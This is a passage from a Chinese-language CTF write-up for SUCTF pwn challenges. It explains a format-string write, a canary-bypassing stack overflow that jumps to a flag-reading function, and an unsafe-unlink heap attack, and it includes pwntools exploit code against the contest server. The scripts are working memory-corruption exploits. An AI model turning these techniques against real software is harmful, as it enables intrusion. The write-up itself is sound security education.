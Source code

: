 ```python
qword_zero(base + 0x2030D0)
qword_one(base + 0x2030C0)
qword_one(base + 0x2030C4)
payload = "%7$p%7$n"
payload += p64(base + 0x2030D4)
sh.send(payload + "\n")

# qword_one(base + 0x2030D4)
# qword_zero(base + 0x2030C8)
# qword_zero(base + 0x2030CC)
# qword_zero(base + 0x2030D8)
# qword_zero(base + 0x2030DC)
# 最后发现这些好像本来就是0。。。所以到这里已经退出循环了。。。
```

最后进入潘多拉魔盒，有个很明显的栈溢出，然后`sub_9AA`有个`"/flag"`字符串的引用，所以试着调用它。。。

```python
sh.recvuntil("Tell me your name:")
sh.send("2019\n")
sh.recvuntil("me what do you want?\n")
sh.send(34 * "A" + p64(canary) + p64(0) + p64(base + 0x9AA) + "\n")

sh.interactive()
```

然后就有flag了。。。

至于canary怎么leak不说了，格式化字符串leak个canary还不简单。。。

讲道理这题可以getshell，毕竟libc可以找出来，也就是返回到libc做几次rop的事情，也不会难多少。。。

## heap

很基础的通过溢出改写`PREV_USE`并伪造`prev_size`来unlink，让一个全局变量指向自己前面的地址实现任意读写，套路题不说了。。。详情可以看 [https://github.com/Mem2019/Mem2019.github.io/blob/master/kxctf/20171004.md](https://github.com/Mem2019/Mem2019.github.io/blob/master/kxctf/20171004.md) ，觉得我博客太丑或者我写的太烂的话呢可以去看雪看其他大神的文章，或者看shellphish的[https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) 。。。

要注意的一点是，这道题`add`的时候用了一个`tmp_buffer`，然后会通过`strcpy`拷贝到真正的`buffer`，所以最开始直接把缓冲区放慢会污染`top_chunk`，还有就是`unlink`的时候后面那个chunk最好要是在用的状态，不然会跟后面的也consolidate，嘛不过好像问题不大。。。

exp如下

```python
from pwn import *
FREE_GOT = 0x602018

g_local=False
e = ELF('./libc-2.23.so')
#context.log_level='debug'
if g_local:
	sh = process('./offbyone', env={'LD_PRELOAD':'./libc-2.23.so'})
	#gdb.attach(sh)
else:
	sh = remote("pwn.suctf.asuri.org", 20004)

def get_addr(idx):
	return 0x6020C0 + idx * 8


def creat(length, data):
	assert length > 0x7F and length <= 256
	sh.send("1\x00")
	sh.recvuntil("input len\n")
	sh.send(str(length) + "\x00")
```